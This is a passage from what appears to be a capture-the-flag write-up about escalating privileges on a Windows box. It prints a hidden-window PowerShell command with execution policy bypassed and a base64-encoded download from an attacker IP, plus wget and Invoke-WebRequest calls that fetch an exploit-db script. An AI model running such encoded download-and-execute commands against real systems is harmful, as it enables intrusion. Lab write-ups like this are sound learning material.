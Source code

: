 ```cmd
C:\Windows\System32\WindowsPowershell\v1.0\powershell.exe -ExecutionPolicy Bypass -NoLogo -NonInteractive -NoProfile -WindowStyle Hidden -EncodedCommand SQBuAHYAbwBrAGUALQBXAGUAYgBSAGUAcQB1AGUAcwB0ACAAaAB0AHQAcAA6AC8ALwAxADAALgAxADAALgAxADYALgAyADEAMQAvAGUAeABwAC4AcABzADEAIAAtAG8AIABlAHgAcAAuAHAAcwAxAA==
```

But no download.

So, I tried `wget`. To my surprise, it worked:

```cmd
PS C:\Users\kostas\Desktop> wget http://10.10.16.211/39719.ps1


StatusCode        : 200
StatusDescription : OK
Content           : {102, 117, 110, 99...}
RawContent        : HTTP/1.0 200 OK
                    Content-Length: 11829
                    Content-Type: application/octet-stream
                    Date: Sun, 13 Jun 2021 11:40:39 GMT
                    Last-Modified: Sun, 13 Jun 2021 11:26:50 GMT
                    Server: SimpleHTTP/0.6 Python/3.9.2
                    ...
Headers           : {[Content-Length, 11829], [Content-Type, application/octet-stream], [Date, Sun, 13 Jun 2021 11:40:3
                    9 GMT], [Last-Modified, Sun, 13 Jun 2021 11:26:50 GMT]...}
RawContentLength  : 11829

```

I tried to run it:

```cmd
PS C:\Users\kostas\Desktop> C:\Windows\System32\WindowsPowershell\v1.0\powershell.exe -noexit "& ""C:\Users\kostas\Desktop\39719.ps1"""
```

This just hung. I re-read the exploit, and it said it only supported powershell 2.0.

However, I noticed I seemed to be *in* a powershell shell (denoted by the `PS` shell prompt). I tested this:

```cmd
PS C:\Users\kostas\Desktop> Invoke-WebRequest http://10.10.16.211/test
```

And suddenly it worked!

![](/assets/images/blogs/Pasted image 20210613124656.png)

I guess trying to run powershell.exe inside a powershell prompt was messing things up

### Trying the Exploit

Trying to run the script within this prompt didn't hang, but it didn't escalate our privileges either:
